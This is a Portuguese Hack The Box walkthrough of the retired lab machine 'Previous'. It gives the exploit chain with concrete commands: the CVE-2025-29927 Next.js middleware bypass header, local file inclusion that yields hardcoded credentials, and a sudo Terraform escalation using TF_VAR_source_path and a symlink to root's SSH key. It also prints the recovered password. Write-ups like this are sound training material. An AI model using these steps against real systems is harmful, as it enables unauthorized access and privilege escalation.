









# Hack The Box — Previous (Retired Machine)

## Sumário

- Enumeração
  - Web
- Exploitation
- Post-Exploitation
- Privilege Escalation

---

## Enumeração

Foi realizado um scan inicial para identificar serviços e portas abertas utilizando o **Nmap**:

```bash
nmap -Pn -sS -T4 --max-rate 100 -p- 10.129.2.70
```

Resultado:

```text
Nmap scan report for 10.129.2.70
Host is up (0.39s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Em seguida, foi realizada a identificação do sistema operacional:

```bash
nmap -Pn -sS -O 10.129.2.70
```

```text
Running: Linux 4.X|5.X
OS details: Linux 4.15 - 5.19
```

Para obter mais detalhes sobre os serviços:

```bash
nmap -Pn -sS -sV -p22,80 10.129.2.70
```

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13
80/tcp open  http    nginx 1.18.0 (Ubuntu)
```

Scripts de enumeração HTTP foram executados com o Nmap, porém nenhuma vulnerabilidade relevante foi identificada.

---

## Enumeração Web

Ao acessar o serviço HTTP diretamente pelo IP, foi identificado um redirecionamento para:

```
http://previous.htb/
```

Após adicionar o domínio ao arquivo `/etc/hosts`, foi possível acessar corretamente a aplicação web.

Tentativas de enumeração de diretórios foram realizadas com **Gobuster**, porém não foram encontrados caminhos relevantes.



---

## Exploitation

Durante a análise da aplicação, foi identificado que o backend utilizava **Node.js**. A partir disso, foi verificada a possibilidade de exploração da vulnerabilidade **CVE-2025-29927**, que permite bypass de autenticação via manipulação de headers.

Ao adicionar o seguinte cabeçalho na requisição:

```
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```

Foi possível contornar a autenticação de rotas protegidas utilizando **curl**:



Posteriormente, o **Burp Suite** foi utilizado para interceptar e modificar as requisições, permitindo o acesso à rota protegida.



Ao manipular os parâmetros da rota de download, foi possível realizar um **LFI (Local File Inclusion)**:



Durante a enumeração dos diretórios da aplicação, foi identificado o diretório `.next`, contendo os arquivos compilados do framework. Através do arquivo `routes-manifest.json`, foi possível identificar as rotas disponíveis da aplicação.



---

## Post-Exploitation

Ao analisar a rota:

```
.next/server/pages/api/auth/[...nextauth].js
```

Foi possível identificar credenciais armazenadas de forma insegura no código-fonte.



---

## Enumeração do SSH

Com as credenciais obtidas, foi realizada uma tentativa de autenticação via **SSH**, que foi bem-sucedida. Após o acesso, foi possível localizar a primeira flag no diretório do usuário.



---

## Privilege Escalation

Durante a enumeração do sistema com **LinPEAS**, foi identificado um arquivo de estado do Terraform localizado em:

```
/opt/examples/terraform.tfstate
```

A análise do arquivo revelou que o valor de `source_path` era utilizado para escrever dados em `destination_path`:

```json
"source_path": "/root/examples/hello-world.ts",
"destination_path": "/home/jeremy/docker/previous/public/examples/hello-world.ts"
```

Consultando a documentação do **Terraform**, foi identificado que é possível sobrescrever variáveis através de variáveis de ambiente no formato:

```
TF_VAR_<nome_da_variavel>
```

Foi explorada a variável `TF_VAR_source_path` para apontar para um arquivo sensível do sistema.

Passos realizados:

```bash
mkdir -p ~/root/examples
ln -s /root/.ssh/id_rsa ~/root/examples/id_rsa
export TF_VAR_source_path=/home/jeremy/root/examples/id_rsa
```

Em seguida, foi executado o Terraform com privilégios elevados:

```bash
sudo /usr/bin/terraform -chdir=/opt/examples apply
```



Isso resultou na cópia da chave privada do usuário **root** para um diretório acessível pelo usuário atual.

Após ajustar as permissões da chave:

```bash
chmod 600 id_rsa
ssh -i id_rsa root@<IP>
```

O acesso como **root** foi obtido com sucesso.



---

## Credenciais

```text
Usuário: jeremy
Senha: MyNameIsJeremyAndILovePancakes
```

---

**Máquina comprometida com sucesso.** 🏴‍☠️

